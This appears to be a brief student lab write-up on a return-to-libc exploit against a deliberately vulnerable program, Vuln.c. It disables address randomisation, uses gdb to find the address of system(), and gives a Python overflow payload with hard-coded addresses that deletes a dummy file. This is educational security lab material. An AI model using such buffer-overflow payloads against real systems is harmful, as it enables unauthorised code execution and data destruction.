





# LAB 3: USE RETURN TO LIBC TO DELETE DUMMYFILE

## Set up

- Change to the older bash and turn off randomly given stack value.



- Create `environment variable` using `export`.



- Stack frame of `Vuln.c`.



## Excution

- We will load `Vuln.out` into `gdb` to find the address of `system()` and the environment variable `path`.



- Run the program with:

```
r $(python -c "print('a'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x31\xde\xff\xff')")
```



- `dummyfile` has been deleted.
